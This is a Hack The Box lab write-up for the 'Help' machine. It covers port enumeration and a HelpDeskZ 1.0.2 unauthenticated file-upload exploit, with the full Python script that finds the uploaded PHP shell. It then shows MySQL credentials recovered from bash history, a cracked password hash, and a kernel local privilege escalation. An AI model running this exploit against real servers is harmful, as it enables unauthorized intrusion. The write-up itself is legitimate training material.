# Hack The Box: Help machine write-up

This is a cool machine based on a file upload which leads to user followed by a kernel exploit that grants us root. Not quite complicated right? The machine is running on port 10.10.10.121.

### Enumeration

First, I enumerate open ports to discover the services running in the machine:

```sh
nmap -sV -sC -oA nmap/initial 10.10.10.121
```

```console
# Nmap 7.70 scan initiated Wed Feb  6 19:50:38 2019 as: nmap -sV -sC -oA nmap/initial 10.10.10.121
Nmap scan report for 10.10.10.121
Host is up (0.031s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Feb  6 19:50:53 2019 -- 1 IP address (1 host up) scanned in 15.03 seconds
```

As we can see, there is SSH enabled, a node.js instance on port 3000 and a web server on port 80. I didn't even use the node service, so I think this attack vector was a bit unintended. It's the only one that I found, though.

*Accessing web server on port 80*



Upon finding the Apache2 default page I decided to use DirBuster to try to find juicy things. The most interesting things found were these two directories:

* ```/support/```
* ```/support/uploads/tickets/``` (this second one will be used later)

*HelpDeskZ running on ```/support```*



We see that apart from logging in there is as well the possibility of uploading a ticket.

*Ticket submission page*



And guess what, it can include a file! Looks like we may have found something exploitable.

*Possibility to upload a file*



### Exploit

First of all, I tried to upload a PHP file, but got this error.

*Error upon uploading a PHP file*



So then I searched on the internet and came across a python code that was supposedly exploiting this file upload feature:

```py
import hashlib
import time
import sys
import requests

print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

if len(sys.argv) < 3:
    print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]

currentTime = int(time.time())

for x in range(0, 300):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl+md5hash+'.php'
    response = requests.head(url)
    if response.status_code == 200:
        print "found!"
        print url
        sys.exit(0)

print "Sorry, I did not find anything"
```

Apparently, it tries to brute-force the name of a file, which is an md5 hash of the file + the time at which it was created. Weird... Then, I found out the code was in GitHub! You can find it [here](https://github.com/evolutionscript/HelpDeskZ-1.0). So I started going through it and found out a really interesting thing on this piece of code:

*Vulnerable piece of code*





Unbelievable! They are storing the file and afterwards doing the security check! The developers must have thought that security would be kept by just hashing the name of the file with the upload time.

It took me some time to realise why the script wasn't working, but I finally realised that it was because the path wasn't right, all files were being uploaded to ``/support/uploads/tickets/``. I tried uploading an image to check this and it worked!

*Image uploaded path*



Now I just needed to upload a shell and launch the script! Surprisingly, we're already user ``help``!. So I tried reading the ``user.txt`` hash and got it without problem:

*Getting a reverse shell*



### Privilege escalation

I inspected the system and found inside the ``.bash_history`` file this entry:

```mysql -uroot -phelpme support```

So I ran it and got different tables, from which ``users`` was definitely the most interesting one:

```console
mysql> show tables;
+------------------------+
| Tables_in_support      |
+------------------------+
| articles               |
| attachments            |
| canned_response        |
| custom_fields          |
| departments            |
| emails                 |
| error_log              |
| file_types             |
| knowledgebase_category |
| login_attempt          |
| login_log              |
| news                   |
| pages                  |
| priority               |
| settings               |
| staff                  |
| tickets                |
| tickets_messages       |
| users                  |
+------------------------+
19 rows in set (0.00 sec)

mysql> select * from users;
+----+------------+----------+-----------------------+------------------------------------------+-----------------+--------+
| id | salutation | fullname | email                 | password                                 | timezone        | status |
+----+------------+----------+-----------------------+------------------------------------------+-----------------+--------+
|  1 |          0 | helpme   | helpme@helpme.com     | c3b3bd1eb5142e29adb0044b16ee4d402d06f9ca | Europe/Brussels |      1 |
|  2 |          0 | xcvxv    | lolololol@yopmail.com | ec09fa0d0ba74336ea7fe392869adb198242f15a | NULL            |      1 |
+----+------------+----------+-----------------------+------------------------------------------+-----------------+--------+
9 rows in set (0.00 sec)
```

I cracked helpme's hash ``c3b3bd1eb5142e29adb0044b16ee4d402d06f9ca`` and got ``Welcome1``. Then, I tried loggin in as ``help`` through SSH with that password and success! That made things so much easier.

Getting back to the privesc part, I ran ``uname -a`` to find the kernel's version to get the following:

```
help@help:~$ uname -a
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

It was obviously Linux Kernel 4.4 so I used ``searchsploit`` to try to find some useful exploit. And indeed there was a local privilege escalation, which I finally used.

*Finding the right exploit with searchsploit*



I copied the C code to the machine serving it with python SimpleHTTPServer and then using wget. Once there, I just needed to compile and run it!

*Getting root*



Note: I'll keep the hash here in case it is needed to read write-ups (b7fe6082dcdf0c1b1e02ab0d9daddb98).

Really nice machine! Kudos to the creator! I hope you enjoyed reading.

---
<center><i>Diego Bernal Adelantado</i></center>
